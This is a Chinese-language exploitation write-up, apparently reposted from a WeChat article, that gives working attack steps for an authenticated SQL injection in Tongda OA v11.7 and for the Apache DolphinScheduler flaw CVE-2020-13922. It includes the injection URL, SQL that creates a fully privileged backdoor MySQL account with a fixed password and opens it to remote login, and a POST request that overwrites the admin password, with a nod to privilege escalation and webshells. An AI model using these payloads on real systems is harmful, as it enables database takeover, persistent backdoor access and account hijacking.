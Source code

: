 这样 $\_SESSION 里就有了登录的信息了。

1、通达 OA v11.7 后台 SQL 注入

来源: https://mp.weixin.qq.com/s/8rvIT1y\_odN2obJ1yAvLbw

利用条件: 需要登录权限, 文章作者给出了利用链注入加 mysql 权限, 又是写木马的。确实用起来很舒服。

/general/hr/manage/query/delete\_cascade.php?condition\_cascade=

select%20if((substr(user(),1,1)=%27r%27),1,power(9999,99))

1、添加一个 mysql 用户

grant all privileges ON mysql.\* TO 'ateam666'@'%'IDENTIFIED BY'abcABC@123' WITH GRANT OPTION

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCZuTKGTqa2ibIUeTRDeeCsKIcYgOW9uibF5onXdEFmap5vuMqSvn9jovg/640?wx_fmt=png)

2、给创建的 ateam666 账户添加 mysql 权限。  

```
UPDATE \`mysql\`.\`user\` SET \`Password\` = '\*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', \`Select\_priv\` = 'Y', \`Insert\_priv\` = 'Y', \`Update\_priv\` = 'Y', \`Delete\_priv\` = 'Y', \`Create\_priv\` = 'Y', \`Drop\_priv\` = 'Y', \`Reload\_priv\` = 'Y', \`Shutdown\_priv\` = 'Y', \`Process\_priv\` = 'Y', \`File\_priv\` = 'Y', \`Grant\_priv\` = 'Y', \`References\_priv\` = 'Y', \`Index\_priv\` = 'Y', \`Alter\_priv\` = 'Y', \`Show\_db\_priv\` = 'Y', \`Super\_priv\` = 'Y', \`Create\_tmp\_table\_priv\` = 'Y', \`Lock\_tables\_priv\` = 'Y', \`Execute\_priv\` = 'Y', \`Repl\_slave\_priv\` = 'Y', \`Repl\_client\_priv\` = 'Y', \`Create\_view\_priv\` = 'Y', \`Show\_view\_priv\` = 'Y', \`Create\_routine\_priv\` = 'Y', \`Alter\_routine\_priv\` = 'Y', \`Create\_user\_priv\` = 'Y', \`Event\_priv\` = 'Y', \`Trigger\_priv\` = 'Y', \`Create\_tablespace\_priv\` = 'Y', \`ssl\_type\` = '', \`ssl\_cipher\` = '', \`x509\_issuer\` = '', \`x509\_subject\` = '', \`max\_questions\` = 0, \`max\_updates\` = 0, \`max\_connections\` = 0, \`max\_user\_connections\` = 0, \`plugin\` = 'mysql\_native\_password', \`authentication\_string\` = '', \`password\_expired\` = 'Y' WHERE \`Host\` = Cast('%' AS Binary(1)) AND \`User\` = Cast('ateam666' AS Binary(5));

```

3、刷新数据库就可以登录到数据库啦。  

/general/hr/manage/query/delete\_cascade.php?condition\_cascade=flush privileges;

4、通达 OA 配置 mysql 默认是不开启外网访问的所以需要修改 mysql 授权登录。

/general/hr/manage/query/delete\_cascade.php?condition\_cascade=

grant all privileges ON mysql.\* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

5、接下来就是考验 mysql 提权功底的时候啦 233...

2、Apache DolphinScheduler 权限覆盖漏洞 \[CVE-2020-13922\]

大概就长这个样子, 默认密码 \[HW 平安夜: 09/12 态势感知\] 有写到。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCbh6ylSZxVMv3StQ4PrrI2ETPl7JhOvPrM0hCTNgnfY0eTIJq5ga1nA/640?wx_fmt=png)

```
POST /dolphinscheduler/users/update

id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=




```
